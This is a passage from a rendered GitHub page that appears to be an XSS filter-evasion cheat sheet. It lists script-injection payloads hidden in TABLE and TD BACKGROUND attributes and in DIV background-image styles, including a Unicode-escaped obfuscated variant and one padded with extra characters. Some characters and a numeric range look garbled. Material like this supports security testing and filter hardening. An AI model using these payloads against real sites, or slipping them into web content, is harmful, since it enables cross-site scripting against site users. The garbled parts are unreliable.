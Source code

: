 </code></pre>
<h2><a id="user-content-table" class="anchor" aria-hidden="true" href="#table"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>TABLE</h2>
<pre><code>&lt;TABLE BACKGROUND="javascript:alert('XSS')"&gt;
</code></pre>
<h3><a id="user-content-td" class="anchor" aria-hidden="true" href="#td"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>TD</h3>
<p>Just like above, TD's are vulnerable to BACKGROUNDs containing
JavaScript XSS vectors:</p>
<pre><code>&lt;TABLE&gt;&lt;TD BACKGROUND="javascript:alert('XSS')"&gt;
</code></pre>
<h2><a id="user-content-div" class="anchor" aria-hidden="true" href="#div"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>DIV</h2>
<h3><a id="user-content-div-background-image" class="anchor" aria-hidden="true" href="#div-background-image"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>DIV background-image</h3>
<pre><code>&lt;DIV STYLE="background-image: url(javascript:alert('XSS'))"&gt;
</code></pre>
<h3><a id="user-content-div-background-image-with-unicoded-xss-exploit" class="anchor" aria-hidden="true" href="#div-background-image-with-unicoded-xss-exploit"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>DIV background-image with unicoded XSS exploit</h3>
<p>This has been modified slightly to obfuscate the url parameter. The original vulnerability was found by Renaud Lifchitz as a vulnerability in Hotmail:</p>
<pre><code>&lt;DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029"&gt;
</code></pre>
<h3><a id="user-content-div-background-image-plus-extra-characters" class="anchor" aria-hidden="true" href="#div-background-image-plus-extra-characters"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M4 9h1v1H4c-1.5 0-3-1.69-3-3.5S2.55 3 4 3h4c1.45 0 3 1.69 3 3.5 0 1.41-.91 2.72-2 3.25V8.59c.58-.45 1-1.27 1-2.09C10 5.22 8.98 4 8 4H4c-.98 0-2 1.22-2 2.5S3 9 4 9zm9-3h-1v1h1c1 0 2 1.22 2 2.5S13.98 12 13 12H9c-.98 0-2-1.22-2-2.5 0-.83.42-1.64 1-2.09V6.25c-1.09.53-2 1.84-2 3.25C6 11.31 7.55 13 9 13h4c1.45 0 3-1.69 3-3.5S14.5 6 13 6z"></path></svg></a>DIV background-image plus extra characters</h3>
<p>Rnaske built a quick XSS fuzzer to detect any erroneous characters that are allowed after the open parenthesis but before the JavaScript directive in IE and Netscape 8.1 in secure site mode. These are in decimal but you can include hex and add padding of course. (Any of the following chars can be used: 1-32, 34, 39, 160, 8192-8.13, 12288, 65279):</p>
<pre><code>&lt;DIV STYLE="background-image: url(�javascript:alert('XSS'))"&gt;
</code></pre>